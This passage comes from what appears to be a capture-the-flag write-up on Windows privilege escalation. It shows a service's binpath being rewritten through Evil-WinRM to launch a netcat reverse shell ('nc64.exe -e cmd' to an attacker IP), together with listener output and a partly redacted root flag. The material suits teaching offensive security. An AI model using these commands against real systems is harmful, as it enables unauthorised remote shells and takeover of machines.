 
Going in a bit blind, I’ll try the one that Cube0x0 shows in the post:

    
    
    *Evil-WinRM* PS C:\programdata> sc.exe config VSS binpath="C:\programdata\nc64.exe -e cmd 10.10.14.6 443"
    [SC] ChangeServiceConfig SUCCESS
    

It works! I’ll try to stop the service, but it’s not started. Then I’ll start
it:

    
    
    *Evil-WinRM* PS C:\programdata> sc.exe stop VSS
    [SC] ControlService FAILED 1062:
    
    The service has not been started.
    
    *Evil-WinRM* PS C:\programdata> sc.exe start VSS
    [SC] StartService FAILED 1053:
    
    The service did not respond to the start or control request in a timely fashion.
    

At first there’s no response here, and a connection at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.108 54572
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>
    

After 30 seconds, the service times out, and returns an error message:

    
    
    *Evil-WinRM* PS C:\programdata> sc.exe start VSS
    [SC] StartService FAILED 1053:
    
    The service did not respond to the start or control request in a timely fashion.
    

At that same point, the shell dies. Still, if I move quickly, I can get the
flag:

    
    
    C:\Users\Administrator\Desktop>type root.txt
    2e3771d0************************
    

#### Better Reverse Shell

When the service fails to start in a service way (there are specific
requirements for a service binary), then it kills the running process. If I
have the service binary actually be `cmd.exe`, and have that start `nc64.exe`,
then the `nc64.exe` will continue even after `cmd.exe` is killed:

    